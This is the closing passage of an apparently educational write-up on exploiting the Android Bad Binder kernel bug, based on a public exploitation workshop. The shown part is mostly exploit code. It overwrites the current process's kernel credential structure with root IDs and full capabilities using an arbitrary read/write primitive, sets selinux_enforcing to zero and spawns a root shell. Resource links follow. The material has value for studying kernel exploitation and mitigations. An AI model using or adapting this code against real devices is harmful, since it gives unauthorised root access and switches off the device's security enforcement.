//      .sgid               = GLOBAL_ROOT_GID,
//      .euid               = GLOBAL_ROOT_UID,
//      .egid               = GLOBAL_ROOT_GID,
//      .fsuid              = GLOBAL_ROOT_UID,
//      .fsgid              = GLOBAL_ROOT_GID,
//      .securebits         = SECUREBITS_DEFAULT,
//      .cap_inheritable    = CAP_EMPTY_SET,
//      .cap_permitted      = CAP_FULL_SET,
//      .cap_effective      = CAP_FULL_SET,
//      .cap_bset           = CAP_FULL_SET,
//      .user               = INIT_USER,
//      .user_ns            = &init_user_ns,
//      .group_info         = &init_groups,
// };
void BadBinder::override_cred_with_init_cred()
{

    info("Overriding cred with init_cred");
    uint64_t cur_cred_ptr = (uint64_t)m_task_struct_ptr+ offsetof(struct task_struct, cred);
    info("\ttask_struct: 0x%lx", m_task_struct_ptr);
    info("\tcred_offset: 0x%lx", offsetof(struct task_struct, cred));
    info("\tcred: 0x%lx", cur_cred_ptr);
    uint64_t cur_cred = read_u64(cur_cred_ptr);
    info("\tcur_cred: 0x%lx", cur_cred);

    write_u64(cur_cred + offsetof(struct cred, uid), GLOBAL_ROOT_UID);
    write_u64(cur_cred + offsetof(struct cred, gid), GLOBAL_ROOT_GID);
    write_u64(cur_cred + offsetof(struct cred, suid), GLOBAL_ROOT_UID);
    write_u64(cur_cred + offsetof(struct cred, sgid), GLOBAL_ROOT_GID);
    write_u64(cur_cred + offsetof(struct cred, euid), GLOBAL_ROOT_UID);
    write_u64(cur_cred + offsetof(struct cred, egid), GLOBAL_ROOT_GID);
    write_u64(cur_cred + offsetof(struct cred, fsuid), GLOBAL_ROOT_UID);
    write_u64(cur_cred + offsetof(struct cred, fsgid), GLOBAL_ROOT_GID);
    write_u64(cur_cred + offsetof(struct cred, securebits), SECUREBITS_DEFAULT);
    write_u64(cur_cred + offsetof(struct cred, cap_inheritable), CAP_EMPTY_SET);
    write_u64(cur_cred + offsetof(struct cred, cap_permitted), CAP_FULL_SET);
    write_u64(cur_cred + offsetof(struct cred, cap_effective), CAP_FULL_SET);
    write_u64(cur_cred + offsetof(struct cred, cap_bset), CAP_FULL_SET);
    write_u64(cur_cred + offsetof(struct cred, cap_ambient), CAP_EMPTY_SET);
}
```

Since we have `arb r/w` just imitate `commit_creds(prepare_kernel_cred(0))`.

## Disable selinux_enforcing

```c
void BadBinder::override_selinux_enforcing()
{
    info("Overriding selinux_enforcing");
    write_u32(m_selinux_enforcing, 0);
}
```

To disable `selinux`, we just disable it by writing 0 to `selinux_enforcing` which is `uint32_t`

## Spawn Shell

```c
void BadBinder::spawn_shell()
{
    info("Spawning shell");
    system("/bin/sh");
}
```

Spawn shell on same process and we should have root as well as disabled selinux!


# Closing Statement

This was my first introduction to Android Kernel Exploitation. Before this, I have done some Linux Kernel exploitation and it seems pretty similar to it except with less kernel structure I can call which makes it harder. Also big shout out to `HackSysTeam`. With their workshop I realize how visualization and neat code organization can make you understand how exploitation works way easier. 

# Resources

## Bad Binder

* [Google Project Zero Writeup](https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html)
* [HackSysTeam Bad Binder Explotation Workshop](https://cloudfuzz.github.io/android-kernel-exploitation/)

## Vector I/O

* [AoE Unconventional UaF](https://youtu.be/U2qvK1hJ6zg)

## Arm Mitigations

### UAO and PAN
* https://duasynt.com/blog/android-uao-kernel-expl-mitigation
